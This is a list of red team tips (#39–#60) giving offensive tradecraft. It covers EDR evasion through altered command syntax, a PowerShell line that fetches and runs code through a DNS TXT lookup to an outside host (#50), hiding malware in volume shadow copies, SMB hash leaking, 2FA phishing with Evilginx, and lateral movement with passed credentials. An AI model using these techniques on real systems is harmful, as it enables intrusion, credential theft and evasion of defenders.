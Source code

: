 Red tip #39: If emails get bounced, read the email! Sometimes due to malware scanners, spam etc. Or you may even get an out of office reply.

Red tip #40: @0x09AL suggests looking for default credentials on printers and embedded devices. Move off initial foothold using this.

Red tip #41: @Oddvarmoe suggests using Alternate Data Streams if you need to put a file on disk. For example https://github.com/samratashok/nishang/blob/master/Backdoors/Invoke-ADSBackdoor.ps1

Red tip #42: Got OS level access to a middle tier? Task list, netstat and wmic process list full | findstr /I commandline for more ideas!

Red tip #43: So you know where the server application files are. Download the binaries and check out configuration files for conn. strings

Red tip #44: Run PEiD and other packer / technology checkers to find out the language and packer used on downloaded server binaries.

Red tip #45: Run strings on the application binary for potentially other cleartext sensitive strings! (Unicode mode too)

Red tip #46: On a VDI? Check out C:\ and other disks for potentially sensitive files other users may have saved there.

Red tip #47: Incase EDR are looking for "net users /domain" try using "net use /dom"

Red tip #48: Is EDR potentially looking for "powershell -encodedcommand"? Try "powershell -ec"

Red tip #49: Attacking a heavy Macintosh or Linux estate? Send a Office Maldoc with OS checking logic to obtain footholds on either system

Red tip #50: Carbon Black checks for IEX and web req commands. Use powershell "powershell . (nslookup -q=txt calc.vincentyiu.co.uk )[-1]"

Red tip #51: Cant open C drive? Try \\127.0.0.1\c$

Red tip #52: SC doesnt take credentials. Cant use runas? Try net use \\targetip\ipc$ password /u:domain\username then sc to psexec

Red tip #53: When stick phishing for 2FA, consider using @mrgretzky Evilginx project which logs cookies. https://breakdev.org/evilginx-1-1-release/

Red tip #54: Hide from blue. Volume shadow copy then execute \\?\GLOBALROOT\Device\HarddiskVolumeShadowColy1\malware.exe/dll then delete VSC

Red tip #55: SMB hash leaking using a UNC path for image in page for drive by leak can give you credentials for less mature environments.

Red tip #56: Target victims using email authentication such as Microsoft Account on Windows 10? Hash leak exposes full email address!

Red tip #57: Working in teams yields better results; and best of all Makes Offensive operations more fun and keeps the adrenaline pumping

Red tip #58: Discuss business targets and objectives with your clients. This process should set non technical goals such as "ATM spit money"

Red tip #59: Checking whether a server or host is good for egress? Likely to go down? "systeminfo | findstr /i boot"

Red tip #60: Type "query user" to see who else is connected to the machine.
